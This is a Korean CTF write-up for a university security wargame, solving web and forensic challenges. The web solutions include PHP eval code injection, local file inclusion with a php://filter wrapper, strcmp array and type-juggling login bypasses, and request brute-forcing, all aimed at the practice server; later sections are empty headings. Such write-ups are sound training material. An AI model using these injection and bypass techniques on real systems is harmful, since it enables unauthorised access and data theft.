# 공주대학교 정보보호영재교육원 Wargame


~~올클잼 :grin:~~

공주대 여러분들 중 라업쓰실거 있으시면 PR 하시면 머지해드립니다

`18_`로 시작하는 문제들은 작년(2017년)에 출제된 문제이니 준비하실거라면 푸는것도 추천드립니다!

## Table of Contents

* Web
  * [Basic (50pt)](#basic-50pt)
  * [Connect (150pt)](#connect-150pt)
  * [Find (300pt)](#find-300pt)
  * [Web1_Project3 (200pt)](#web1_project3-200pt)
  * [Web2_Project3 (200pt)](#web2_project3-200pt)
  * [Web3_Project3 (200pt)](#web3_project3-200pt)
  * [Web4_Project3 (200pt)](#web4_project3-200pt)
  * [Web5_Project3 (200pt)](#web5_project3-200pt)
  * [18_web1 (50pt)](#18_web1-50pt)
  * [18_web2 (100pt)](#18_web2-100pt)
  * [18_web3 (100pt)](#18_web3-100pt)
  * [18_web4 (100pt)](#18_web4-100pt)
  * [18_web5 (200pt)](#18_web5-200pt)

* Forensic
  * [ForensicPower (150pt)](#forensicpower-150pt)
  * [Decompress (300pt)](#decompress-300pt)
  * [Trust (500pt)](#trust-500pt)
  * [forensic1_Project3 (200pt)](#forensic1_project3-200pt)
  * [forensic2_Project3 (200pt)](#forensic2_project3-200pt)
  * [forensic3_Project3 (200pt)](#forensic3_project3-200pt)
  * [USB_Project3 (200pt)](#usb_project3-200pt)
  * [18_forensic1 (150pt)](#18_forensic1-150pt)
  * [18_forensic2 (100pt)](#18_forensic2-100pt)
  * [18_forensic3 (100pt)](#18_forensic3-100pt)
  * [18_forensic4 (150pt)](#18_forensic4-150pt)

* Crypto
  * [Crypto2 (300pt)](#crypto2-300pt)
  * [Crypto1_Project3 (200pt)](#crypto1_project3-200pt)
  * [Crypto2_Project3 (200pt)](#crypto2_project3-200pt)
  * [Crypto3_Project3 (200pt)](#crypto3_project3-200pt)
  * [18_crypto1 (50pt)](#18_crypto1-50pt)
  * [18_crypto2 (100pt)](#18_crypto2-100pt)
  * [18_crypto3 (100pt)](#18_crypto3-100pt)
  * [18_crypto4 (100pt)](#18_crypto4-100pt)

* Pwnable
  * [Pwnable1 (100pt)](#pwnable1-100pt)
  * [Pwnable2 (200pt)](#pwnable2-200pt)

* Network
  * [Login (200pt)](#login-200pt)
  * [network1_Project3 (200pt)](#network1_project3-200pt)
  * [network2_Project3 (200pt)](#network2_project3-200pt)
  * [network3_Project3 (200pt)](#network3_project3-200pt)
  * [network4_Project3 (200pt)](#network4_project3-200pt)
  * [network5_Project3 (200pt)](#network5_project3-200pt)
  * [18_network1 (50pt)](#18_network1-50pt)
  * [18_network2 (100pt)](#18_network2-100pt)
  * [18_network3 (150pt)](#18_network3-150pt)
  * [18_network4 (200pt)](#18_network4-200pt)

* Reversing
  * [Reversing1 (100pt)](#reversing1-100pt)
  * [Reversing2 (150pt)](#reversing2-150pt)
  * [number (200pt)](#number-200pt)
  * [endecoded (150pt)](#endecoded-150pt)
  * [rrrr (300pt)](#rrrr-300pt)
  * [reversing1_Project3 (200pt)](#reversing1_project3-200pt)
  * [reversing2_Project3 (200pt)](#reversing2_project3-200pt)
  * [reversing3_Project3 (200pt)](#reversing3_project3-200pt)
  * [reversing4_Project3 (200pt)](#reversing4_project3-200pt)
  * [reversing5_Project3 (200pt)](#reversing5_project3-200pt)
  * [reversing6_Project3 (200pt)](#reversing6_project3-200pt)
  * [18_reversing1 (150pt)](#18_reversing1-150pt)
  * [18_reversing2 (100pt)](#18_reversing2-100pt)
  * [18_reversing3 (100pt)](#18_reversing3-100pt)
  * [18_reversing4 (200pt)](#18_reversing4-200pt)

* Misc
  * [Forest (10pt)](#forest-10pt)
  * [See (10pt)](#see-10pt)

---

## Web

### Basic (50pt)

```
Find the flag this page
Flag Structure : flag is {real flag}
```

이 페이지에 플래그가 숨겨져 있다고 한다.

Ctrl+U로 소스보기를 이용해서 플래그를 알아내면 된다.

```html
<!-- 중략 -->
<div class="row">
    <div class="col-lg-12 text-center">
        Find the flag this page</br>
        Flag Structure : flag is {real flag}
        <!--flag is {W3b_is_S1mp1e}-->
        </form>
    </div>
</div>
<!-- 중략 -->
```

```
FLAG: W3b_is_S1mp1e
```

### Connect (150pt)

```
Referer : wantconnection
User-Agent : iwant!!!!
Go!
```

저기에 있는 조건대로 헤더를 만들어서 보내면 될것같다.

cURL로 풀면 쉬울것 같긴한데 잘 모르니까 python requests로 푼다.

```python
import requests
headers = {
  'user-agent': 'iwant!!!!',
  'referer': 'wantconnection'
}
req = requests.get('http://wargame_sec.kongju.ac.kr/web/connect/connect.php', headers=headers)
print(req.text)
```

```html
<!-- 중략 -->
<div class="row">
    <div class="col-lg-12 text-center">
        Key is Us3r_Ag3nt_@nd_R3f3r3r
    </div>
</div>
<!-- 중략 -->
```

```
FLAG: Us3r_Ag3nt_@nd_R3f3r3r
```

### Find (300pt)

```
1000점을 만들면 Flag가 나온다!
1000을 만들어 주세요!
Prob
```

소스를 보니까 hidden input이 있다.


딱 보니 base64인것 같다.
Submit 버튼이 없으니 일단 F12를 누르고 Console탭에 들어간 후 다음을 실행시키자.

```javascript
document.querySelector('form').submit();
```

포인트가 1이 추가 되었다. 그러면 이걸 계속 반복하면 될것 같지만, 아쉽게도 Console에서는 불가능하니 python으로 해결하자.

PHP 세션ID도 필요 할것 같으니 쿠키에 넣고 돌려주자

```python
import requests
from base64 import b64encode

for i in range(1001):
    req = requests.post('http://wargame_sec.kongju.ac.kr/web/find/prob.php', data={'HaHa': b64encode(str(i).encode())}, cookies={'PHPSESSID': 'jcrcp6kp5ksl2shh1g6b2esei3'})

    if i != 1000:
      print(req.text[0:150])
    else:
      print(req.text)
```

```
Flag is W1nn3r_C0ngr4tur4t1on</br>Prize - Point 1000 : Flag</br>Your Point : 1000<form method='POST' action='prob.php'><input type='hidden' name='HaHa
Prize - Point 1000 : Flag</br>Your Point : 1001<form method='POST' action='prob.php'>
```

```
FLAG: W1nn3r_C0ngr4tur4t1on
```

### Web1_Project3 (200pt)


#### 소스코드
```html
<body>
    <div class="login_box">
        <div class="box_title">
            <span>관리자로그인</span>
        </div>
        <div class="login_form">
            <form method="post">
                <input name="id" type="text" class="login_id" placeholder="ID"/><br />
                    <input name="pw" type="password" class="login_pw" placeholder="PW"/><br />
                    <input type="submit" value="로그인">
            </form>
        </div>
        <div class="status">
                    </div>
    </div>
</body>
<!--
Test Account : admin/admin123
    -->
```

뭔가 굉장히 로그인 하고 싶어진다.

ID를 `admin`으로 하고 비밀번호를 `admin123`으로 해주면 됩니당!




```
FLAG: Unc0mpleted_Devel0pment
```

### Web2_Project3 (200pt)

처음 URL에 접속하면 다음과 같이 뜬다.

```
Plz POST me T.T
```

그러면 POST로 해보자.


```
Python 3.7.0 (v3.7.0:1bf9cc5093, Jun 27 2018, 04:06:47) [MSC v.1914 32 bit (Intel)] on win32
Type "help", "copyright", "credits" or "license" for more information.
>>> import requests
>>> response = requests.post('http://wargame_sec.kongju.ac.kr/web/web2_DJU/index.php')
>>> response.text
'<!DOCTYPE html>\n<html>\n\t<head>\n\t\t<title>web02</title>\n\t</head>\n\t<body>\n\t\tKEY is : p0s7_m3_1f_y0u_can\t</body>\n</html>\n'
>>>
```

```
FLAG: p0s7_m3_1f_y0u_can
```

### Web3_Project3 (200pt)

페이지에 들어가면 다음과 같이 뜬다.

```
이 페이지에서 이미 키를 드렸습니다.
```

뭐지 하고 개발자 도구에서 Network 탭에 들어가니 Response Header에 플래그가 담겨져 있었다.



```
FLAG: thisisKey
```

### Web4_Project3 (200pt)


페이지를 돌아다녀 보면 URL의 쿼리 스트링중 game이 바뀌는 것을 알수 있다.

```
http://wargame_sec.kongju.ac.kr/web/web4_DJU/index.php?game=lol
```

`http://wargame_sec.kongju.ac.kr/web/web4_DJU/lol.php`의 URL로 접속하면 공통된 부분을 제외한 부분만이 담겨져 있는것을 알 수 있다.

저 game 파라미터에 flag을 넣어보았다.


```
FLAG: L0cal_F1l3_1nclus10n!!
```

### Web5_Project3 (200pt)


PHP Wrapper을 사용하면 LFI를 할 수 있다. base64로 해도 되고 rot13으로도 해도 되는데 그냥 base64가 편해서 base64로 했다.

보아하니 따로 플래그 파일이 있는것이 아니고 저 `index.php` 파일 안에 플래그가 있어 보이니까 index.php를 base64 encode 했다.

```
php://filter/convert.base64-encode/resource=index.php
```


이걸 base64 decode 하면 다음과 같은 소스 코드가 나온다!

```php
<?php
    // Key is : LFI_WITH_BASE64_IS_VERY_DANGEROUS_!
?>
<html>
    <head>
        <title>web05</title>
        <style>
            html, body{
                width: 100%;
                margin: 0;
                padding: 0;
                text-align: center;
            }
            body{
                margin-top: 40px;
            }
            .output{
                width: 800px;
                height: 120px !important;
                border: 1px solid #aaa;
                margin: 0 auto 20px auto;
                overflow-y: scroll;
            }
            .source{
                width: 504px;
                margin: 20px auto;
            }
        </style>
    </head>
    <body>
        <h1>LFI (Local File Inclusion)</h1>
        <form method="get">
        <input type="text" name="url"/>
        <input type="submit" value="ViewFile">
        </form>
        <div class="output">
            <?php
                if(isset($_GET["url"]) && !empty($_GET["url"])){
                    $escape_pattern = array("etc","passwd", "ini", "%", "/");
                    if(in_array($_GET["url"], $escape_pattern)){
                        echo "No Hack~!";
                        exit;
                    }
                    if(!file_exists($_GET["url"])){
                        echo "No File Exists!\n";
                    }
                    include $_GET["url"];
                }else if(isset($_GET["url"]) && empty($_GET["url"])){
                    echo "Empty!";
                }
            ?>
        </div>
        <hr>
        <div class="source">
            index.php SOURCE<br />
            <?php
                include "./source.html";
            ?>
        </div>
    </body>
</html>
```

```
FLAG: LFI_WITH_BASE64_IS_VERY_DANGEROUS_!
```

### 18_web1 (50pt)


참 고맙게도 `var_dump` 한 값을 보여준다. 그러면 아무 힌트도 없지만, 공주대 CTF 당시에는 대회 전 힌트에서 `$GLOBALS` 힌트를 주었으니 그걸로 풀면 된다.

```
http://wargame_sec.kongju.ac.kr/web/18_web1/index.php?args=GLOBALS
```


```
FLAG: B0sSBaby!
```

### 18_web2 (100pt)

닫혀있다. 근데도 라업은 올릴거다.



개꿀 아님미까...?

`$_REQUEST`는 POST로 보낼때 폼 데이터를 가지고 있다.

아마 `$flag`에 플래그가 담겨져 있을테니 그렇게 해보자.
```
Python 3.7.0 (v3.7.0:1bf9cc5093, Jun 27 2018, 04:06:47) [MSC v.1914 32 bit (Intel)] on win32
Type "help", "copyright", "credits" or "license" for more information.
>>> import requests
>>> response = requests.post('http://sec.kongju.ac.kr/ctf/comme/', data={'hello': '$flag'})
>>> response.text
'<code><span style="color: #000000">\n<span style="color: #0000BB">&lt;?php&nbsp;<br /><br /></span><span style="color: #007700">include&nbsp;</span><span style="color: #DD0000">"flag2.php"</span><span style="color: #007700">;<br /></span><span style="color: #0000BB">error_reporting</span><span style="color: #007700">(</span><span style="color: #0000BB">0</span><span style="color: #007700">);<br /></span><span style="color: #0000BB">show_source</span><span style="color: #007700">(</span><span style="color: #0000BB">__FILE__</span><span style="color: #007700">);<br /><br /></span><span style="color: #0000BB">$a&nbsp;</span><span style="color: #007700">=&nbsp;@</span><span style="color: #0000BB">$_REQUEST</span><span style="color: #007700">[</span><span style="color: #DD0000">\'hello\'</span><span style="color: #007700">];<br />eval(</span><span style="color: #DD0000">"var_dump(</span><span style="color: #0000BB">$a</span><span style="color: #DD0000">);"</span><span style="color: #007700">);<br /></span>\n</span>\n</code>string(14) "flag not here!"\n'
>>>
```
플래그는 여기에 없나보다. 그럼 수상한 flag2.php를 들여다 보자.

```
>>> response = requests.post('http://sec.kongju.ac.kr/ctf/comme/', data={'hello': 'file_get_contents(\'flag2.php\')'})
>>> response.text
'<code><span style="color: #000000">\n<span style="color: #0000BB">&lt;?php&nbsp;<br /><br /></span><span style="color: #007700">include&nbsp;</span><span style="color: #DD0000">"flag2.php"</span><span style="color: #007700">;<br /></span><span style="color: #0000BB">error_reporting</span><span style="color: #007700">(</span><span style="color: #0000BB">0</span><span style="color: #007700">);<br /></span><span style="color: #0000BB">show_source</span><span style="color: #007700">(</span><span style="color: #0000BB">__FILE__</span><span style="color: #007700">);<br /><br /></span><span style="color: #0000BB">$a&nbsp;</span><span style="color: #007700">=&nbsp;@</span><span style="color: #0000BB">$_REQUEST</span><span style="color: #007700">[</span><span style="color: #DD0000">\'hello\'</span><span style="color: #007700">];<br />eval(</span><span style="color: #DD0000">"var_dump(</span><span style="color: #0000BB">$a</span><span style="color: #DD0000">);"</span><span style="color: #007700">);<br /></span>\n</span>\n</code>string(62) "<?php \n$flag ="flag not here!";\n\n// flag : C0mmeDesGarcons!;\n "\n'
>>>
```

```
FLAG: C0mmeDesGarcons!
```

지금은 작동하지 않을테지만 리모트쉘 처럼 될 수 있어서 막힌거다.

하는 방법은 안 알려줄거다.

### 18_web3 (100pt)


그때 어떻게 풀었는지는 기억 안나는데 지금 보니까 그냥 Guess! 버튼 누르니까 되더라..



```
FLAG: danbi!
```

### 18_web4 (100pt)


#### 소스코드
```php
<!DOCTYPE html>
<html>
<head>
    <title>level2</title>
    <link href='style.css' rel='stylesheet' type='text/css'>
</head>
<body>
    <?php
    require 'flag.php';

    if (isset($_GET['password'])) {
        if (is_numeric($_GET['password'])) {
            if (strlen($_GET['password']) < 4) {
                if ($_GET['password'] > 999) die('Flag: ' . $flag);
                else print '<p class="alert">Too little</p>';
            }
            else print '<p class="alert">Too long</p>';
        }
        else print '<p class="alert">Password is not numeric</p>';
    }
    ?>
    <section class="login">
        <div class="title">
            <a href="./index.txt">Level 2</a>
        </div>
        <form method="get">
            <input name="password" placeholder="Password" required="" type="text"><br>
            <input type="submit">
        </form>
    </section>
</body>
</html>
```

999를 넘겨야 하지만 4글자를 넘기면 안된다. 라는 조건이 있다.

이 경우에는 Exponential Notation(지수 표기법)을 사용하면 된다.
3글자 안에서 만들수 있는 가장 큰수는 `9e9` 이니, 이걸 입력하면 된다.


```
FLAG: yeeZY_BOost
```

### 18_web5 (200pt)


로그인 창에 들어가보면 ID가 본인의 IP로 되어있고, PS는 비어져 있다. 소스도 같이 제공되는데 로그인을 처리하는 소스를 보자.

```php
<?php
    include("./otp_util.php");
    $flag = file_get_contents($flag_file);

    if (isset($_POST["id"]) && isset($_POST["ps"])) {
        $password = make_otp($_POST["id"]);
        sleep(3); // do not bruteforce

        if (strcmp($password, $_POST["ps"]) == 0) {
            echo "welcome, <b>".$_POST["id"]."</b><br />";
            echo "<input type='button' value='back' onclick='history.back();' />";

            if ($_POST["id"] == "127.0.0.1") {
                echo "<hr /><b>".$flag."</b><br />";
            }
        } else {
            echo "<script>alert('login failed..');history.back();</script>";
        }
    }
?>
```

일단 `strcmp`로 `ps`를 비교하니까 필드값을 `ps[]`로 고치면 되겠고, 딱히 `id`도 IP 검사를 안하니까 readonly더라도 소스를 고쳐서 Request 보내면 되겠다.

크롬 개발자 도구로 소스를 고친다.

```html
<!-- 중략 -->
<form method="post" action="./page/login_ok.php">
    ID : <input type="text" name="id" value="XXX.XXX.XXX.XXX" readonly=""><br>
    PS : <input type="password" name="ps"><br>
    <input type="submit" value="login">
</form>
<!-- 중략 -->
```

다음과 같이 고친다.

```html
<!-- 중략 -->
<form method="post" action="./page/login_ok.php">
    ID : <input type="text" name="id" value="127.0.0.1" readonly=""><br>
    PS : <input type="password" name="ps[]"><br>
    <input type="submit" value="login">
</form>
<!-- 중략 -->
```

그리고 나서 요청을 보내면 된다.


```
FLAG: Brann@@@@U_Web
```

---

## Forensic
### ForensicPower (150pt)
PPT 파일이 주어진다.

오피스 파일들은 대부분 zip으로 압축된다. 압축을 풀어보자.

`ppt/media/` 경로로 들어가면 파일이 하나 더 주어진다.


```
FLAG: Funny_Forensic
```

### Decompress (300pt)


끝이 `==`로 끝나는거 봐서 base64인것 같다. 디코딩해보자.    

```python
import base64
data = open("Prob", "rb").read()
decoded = base64.b64decode(data)
open("Prob-decoded", "wb").write(decoded)
```

디코딩 한것을 DIE에 돌려보면 다음과 같이 나온다.



확장자를 `.gz`로 바꾸고 압축을 해제하면 다음과 같이 나온다.



저 `3` 파일을 DIE에 돌려보면 또 다음과 같이 나온다.


그러면 이번에는 Python zlib 라이브러리로 Decompress 해보자.

```python
import zlib

open('3-decompressed', 'wb').write(zlib.decompress(open('3', 'rb').read()))
```

그 다음 또또 DIE로 돌려보면 다음과 같이 나온다.



압축을 풀어주자.


또, DIE로 돌려보자.



`.7z`로 바꾼뒤에 압축을 풀어보자.


(!!!)



```
FLAG: C0mpr3ssi0n_F1le
```

### Trust (500pt)

다음 BMP 파일이 주어진다.


문제 설명에 다음과 같이 나와있다.

```
Trust, But Don't believe the header
```

헤더를 믿지 말라고 했으니까 BMP 헤더 구조를 한번 살펴보자.


이 파일이 가장 잘 나와있다.

우리는 height을 건드려서 숨겨진 것들을 찾을것이다.

보통 width는 안쓴다. 왜나하면 width를 늘리게 되면 나머지 것들이 따라와서 파일이 이상하게 되기 때문이다.




이렇게 적당히 `0x40`으로 바꿔주면 bmp 파일에는 이렇게 나온다.


```
FLAG: HAHAHA_HEADER_REDAEH_AHAHAH
```

### forensic1_Project3 (200pt)

그냥 오픈스테고 같아서 0.7.3 버전으로 돌렸다.


근데 구버전이라고 한다. 대부분 구버전이라고 뜨면 0.5.2 버전으로 하면 잘 된다. 알고리즘이 그 뒤로 바뀌었나보다 ㅇㅅㅇ


됐다!



```
FLAG: White Shirts
```

### forensic2_Project3 (200pt)

jpg 파일이 주어지는데 열리지 않는다.

DIE로 까보자.


PDF다? 확장자를 `.pdf`로 바꾸고 열어보았다.



```
FLAG: poweroverwhelming
```

### forensic3_Project3 (200pt)

pptx로 확장자를 변환 해준 다음 오피스로 들어가서 복구 해주면 된다!


???


괘꿀죔

```
FLAG: q!@#$%7
```

### USB_Project3 (200pt)

본 문제는 세문제로 나뉘어져 있습니다.

```
종근이와 삼식이는 평소 친한 친구 사이이다.
어느 날, 컴퓨터 시간에 삼식이가 USB를 컴퓨터에 꽂고 그냥 가버렸다.
USB를 발견한 종근이는 그 USB가 삼식이 USB라는 사실을 알고 있던 터라 삼식이에게 가져다 줄려고 
하였지만, 가져다 준다는 사실을 그만 잊어버리고 수업이 마칠 때까지 주지 못하여 내일 주기로 결심하였다.
집으로 온 종근이는 평소 포렌식에 관심이 있던 터라 삼식이의 USB를 뒤져보기 시작하는데...
```

파일로 E01 파일(FTK Imager로 분석할 수 있는 파일)이 주어진다.

#### 1번 문제

```
삼식이는 평소 야구팬이라 야구동영상을 항상 USB에 가지고 다닌다.
동영상을 찾아라!
```



저 baseball.mp4를 다운받는다.

하지만 파일이 문제가 생겼다면서 안된다.

나는 툴키디니까 `Stellar Pheonix Video Repair` 라는 툴을 써서 복구 할거다.

돈이 없어서 무료버전을 쓰고 있는데 플래그를 확인하는데는 문제가 되지 않는다.

미리보기를 하면 ~~익숙한~~ FBI Warning이 뜬다음에 **야**구 **동**영상이 뜨면서 `f6iwarin9`이라는 플래그가 뜨게 된다.

```
FLAG: f6iwarin9
```

#### 2번 문제

```
삼식이는 평소 좋아하던 미영이에게 고백하기 위해 러브레터를 작성해 파일로 숨겨놓았다고 한다.
숨겨놓은 러브레터를 찾자!
```

삼식폴더에 `2015`에 들어가면 일기.docx가 있는데 꽤 수상해보인다.


별거 없어보이지만 문서 끝에를 다른 색으로 바꾸면 다음과 같이 나온다.


저 비밀번호를 `2016/소중한/etc`에 들어가서 `갈매기.zip`를 추출해보자.


그리고 나서 비밀번호를 입력 하면 `loveletter.pdf`가 나온다.


:grin:

```
FLAG: Love9Letter!
```

#### 3번 문제

`삼식폴더/2016/` 폴더에 있는 `체스.exe`를 열면 다음과 같이 나온다.


이 `20160702`를 모든 PNG 파일을 OpenStego로 돌려보면 뭐가 나올 것 같다.

모든이라고 해봤자 `삼식폴더/2016/소중한/etc/우리집.png` 하고 `삼순폴더/오빠들/박보검.png` 밖에 없다. 한번 돌려보자.



`박보검.png`을 해보니까 된다.


```
FLAG: 386
```

### 18_forensic1 (150pt)

`DHL.zip` 파일을 압축 해제해보면

```
 DHL.zip
 ├ 우체통.png
 └ readme.txt
```
이렇게 나온다.

**우체통.png**


**readme.txt**

```
우체통 안에...
```

PNG니까 일단 OpenStego로 돌려보자!


이게 나온다.

저 검정색 머시기가 굉장히 불편해보인다.

7x7 인거 보니까 뭔가 아스키 코드가 들어갈 만해 보인다.

검정색을 1, 하얀색을 0으로 바꿔서 계산해보자.

빠르게 파이썬 코드로 짜봤다.

```python
s = """
1001111
1101110
1100101
1101101
1101111
1110010
1100101
"""

for line in s.split('\n'):
    if line == '':
        continue
    
    print(chr(int(line, 2)), end='')
```

```
>>> Onemore
```



한번 더 OpenStego로 돌려보자. 사실 저 파일 확장자는 JPG로 되어있지만 헤더는 PNG다(!)


뒤에는 매트릭스(Matrix, 행렬)가 배경이고 가운데에는 곱하기 모양이 나와있다! 그래서 행렬곱을 해봤다.

```
1 0 0 0 3 2 3
3 3 0 2 2 3 1
2 3 0 2 2 3 1
1 1 0 0 1 0 0
2 2 0 1 0 1 0
3 3 0 2 2 3 1
1 1 0 0 0 1 0
```

이렇게 나오지만 0 이외의 수들은 1로 바꿔야 겠다.

그다음 위에 코드로 다시 돌려보면..?

```
>>> Goodjob
```

```
FLAG: Goodjob
```

### 18_forensic2 (100pt)

나중에 풀거다.

그래도 플래그는 옛다

```
FLAG: MiSsloNc0mPiEte
```

### 18_forensic3 (100pt)

> 2016 Google CTF에 출제된 문제와 **정확히** 똑같다. 심지어 문제설명에 바이너리까지 (기껏 해봐야 파일명 바꾼거)

`big-deal.gz` 파일을 주지만 gzip으로는 압축된 것 같지 않아보인다.


PCAP 파일인 것 같다.

근데 CTF 문제에서는 설명에서 이렇게 나온다.

```
Sometimes the answer is immediately obvious, sometimes its obscured. Find the answer in here.
```

그냥 strings 해서 풀 수 있을거다.

```
devon@DESKTOP-CIPDIIG MINGW64 ~/Downloads
$ strings big-deal.gz | egrep ".{10,}" | head
NBDMAGICj0 W
=3IHAVEOPTj0 W
=3exportj0 W
Q1RGe2JldHRlcmZzLnRoYW4ueW91cnN9
Q1RGe2JldHRlcmZzLnRoYW4ueW91cnN9
Q1RGe2JldHRlcmZzLnRoYW4ueW91cnN9
Q1RGe2JldHRlcmZzLnRoYW4ueW91cnN9
Q1RGe2JldHRlcmZzLnRoYW4ueW91cnN9
Q1RGe2JldHRlcmZzLnRoYW4ueW91cnN9
gfxdrivers
```

여기서 `Q1RGe2JldHRlcmZzLnRoYW4ueW91cnN9` 이걸 base64로 풀면 나온다.

```
FLAG: CTF{betterfs.than.yours}
```

### 18_forensic4 (150pt)

## Crypto
### Crypto2 (300pt)
### Crypto1_Project3 (200pt)
### Crypto2_Project3 (200pt)
### Crypto3_Project3 (200pt)
### 18_crypto1 (50pt)
### 18_crypto2 (100pt)
### 18_crypto3 (100pt)
### 18_crypto4 (100pt)

## Pwnable
### Pwnable1 (100pt)
### Pwnable2 (200pt)

## Network
### Login (200pt)
### network1_Project3 (200pt)
### network2_Project3 (200pt)
### network3_Project3 (200pt)
### network4_Project3 (200pt)
### network5_Project3 (200pt)
### 18_network1 (50pt)
### 18_network2 (100pt)
### 18_network3 (150pt)
### 18_network4 (200pt)

## Reversing
### Reversing1 (100pt)
### Reversing2 (150pt)
### number (200pt)
### endecoded (150pt)
### rrrr (300pt)
### reversing1_Project3 (200pt)
### reversing2_Project3 (200pt)
### reversing3_Project3 (200pt)
### reversing4_Project3 (200pt)
### reversing5_Project3 (200pt)
### reversing6_Project3 (200pt)
### 18_reversing1 (150pt)
### 18_reversing2 (100pt)
### 18_reversing3 (100pt)
### 18_reversing4 (200pt)

## Misc
### Forest (10pt)
### See (10pt)
